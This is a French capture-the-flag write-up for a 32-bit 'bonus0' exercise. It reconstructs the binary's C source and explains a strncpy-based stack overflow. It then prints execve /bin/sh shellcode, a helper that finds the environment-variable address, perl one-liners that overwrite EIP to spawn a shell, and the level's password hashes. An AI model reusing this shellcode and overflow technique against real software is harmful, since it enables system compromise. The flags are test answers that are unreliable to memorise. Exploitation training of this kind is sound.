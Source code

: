 # Bonus0

pass : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`

## Sources :

```c=
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void	p(char *str, char *sep) {
	char buf[4096];  // 0x1008 - 0x8
	puts(sep);
	read(stdin, buf, 4096);
	char *ptr = strchr(buf, '\n');
	*ptr = '\0';
	strncpy(str, buf, 20);  // 0x14
}

void	pp(char *buf) {
	char a[20];  // ebp-0x30
	p(a, " - ");

	char b[20];  // ebp-0x1c
	p(b, " - ");

	strcpy(buf, a);

	int i = 0;
	while (buf[i] != '\0') {
		i++;
	}
	buf[i] = ' ';

	strcat(buf, b);
}

int		main(int ac, char **av) {
	char buf[42];  // 0x40-0x16

	pp(buf);
	puts(buf);

	return (0);
}
```

## Recherche :

Le points d'entrés sont par les 2 calls à `read(stdin, buf, 4096)`.
`strcpy` copie la source dans la destination et rajoute `\0`
`strncpy` fait de même, mais si la taille est atteinte, il ne rajoute pas de `\0` à la fin de sa chaine.

Donc si le premier `read` fait exactement plus de 20 caractères, les 20 premiers caractères vont être copiés dans `a` sans rajouté de `\0` et comme la mémoire est contingente, `a` et `b` se suivent. `strcat` va donc dans `buf` `ab b`

`a` se trouve à l'adresse `0xbffff1e8`
`b` se trouve à l'adresse `0xbffff1fc`

On écrit donc `20 + 20 + 1 + 20` caractères dans `buf` qui dépasse les `42` aloués, et on écrit donc dans la stack.
Et quand on quitte le main, et qu'on déstack, on se retrouve à écrire dans `EIP` et le programme segfault.

```shell=
./bonus0
 -
abcdefghijabcdefghij
 -
01234567890123456789
abcdefghijabcdefghij01234567890123456789 01234567890123456789
[1]    3889 segmentation fault  ./bonus0
```

Avec gdb, c'est plus clair, et on voit que `EIP` est réécrit au 13<sup>ème</sup> caractère du second `read`.

Notre shell code de 28 bytes:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Les 20 premiers caractères:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0`
les 8 suivants:
`\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

l'adresse de buf: `0xbffff236`
```
./bonus0 < <(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0"."\n"."A"x(4096-21)."\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(13-8)."\x36\xf2\xff\xbf"."A"x(7-4)."\n"')
```

On va se créer un programme pour retrouver l'adresse de l'env.

getenv.c:
```c=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int ac, char **av) {
        char *ptr;

        ptr = getenv(av[1]);
        ptr += strlen(av[0]) - strlen(av[2]);

        printf("%s -- %p\n", av[1], ptr);
        return 0;
}
```
Et on copile avec `gcc getenv.c -o getenv`


On va mettre notre shell code dans une variable d'environnement en laissant un peu de place avant :

`export SHELLCODE="$(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')"`


`export SHELLCODE="$(perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')`

En lançant `./getenv SHELLCODE ./bonus0`, on trouve `SHELLCODE -- 0xbffff90a`

```
perl -e 'print "A"x(4095)."\n"."B"x(9)."\x23\xf9\xff\xbf"."\n"' > /tmp/a;  cat /tmp/a - | ./bonus0
```

```
perl -e 'print "A"x4095 . "\n" . "B"x9 . "\x11\xf9\xff\xbf" . "B"x7 . "\n"' > /tmp/a ; cat /tmp/a - | ./bonus0
```

`cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9`

## Exploit :

```sh=

```
